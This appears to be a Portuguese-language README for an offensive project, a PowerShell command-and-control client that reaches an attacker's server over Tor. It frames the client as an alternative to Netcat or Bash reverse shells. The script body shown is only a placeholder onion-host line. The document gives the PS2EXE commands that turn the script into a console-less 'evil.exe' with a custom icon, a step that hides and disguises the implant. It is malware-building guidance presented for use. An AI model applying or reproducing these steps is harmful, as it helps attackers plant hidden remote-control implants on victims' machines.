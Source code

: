 # client-C2-Tor-Powershell
Ao invés de usar ferramentas tradicionais como Netcat ou Bash reverse shells, que geralmente são comuns em ambientes Linux, usamos PowerShell — que, por padrão, não possui uma forma nativa de se comunicar com serviços SOCKS5 (como os oferecidos pelo Tor). Por isso, é necessário criar a conexão manualmente via sockets.

## script.ps1

$onionHost = "seuc2.onion"  # <-- substitua aqui


E depois, convertendo o script .ps1 para um executável .exe com ícone personalizado, usamos o módulo PS2EXE, que está disponível no GitHub: **Repositório GitHub: https://github.com/MScholtes/PS2EXE**

```ps
Import-Module ".\ps2exe\PS2EXE-master\Module\ps2exe.psm1"
```

## PS2EXE coverter .ps1 para .exe

```ps
Invoke-ps2exe -inputFile "C:\Users\***USERNAME_OS***\Downloads\script.ps1" -outputFile "C:\Users\***USERNAME_OS***\Downloads\evil.exe" -noConsole -iconFile "C:\Users\***USERNAME_OS***\Downloads\evil.ico"
```

### Créditos: **https://netcattest.com/aula/128**

<br/>

### Aula: **https://www.youtube.com/watch?v=ZI0nxthptvY**
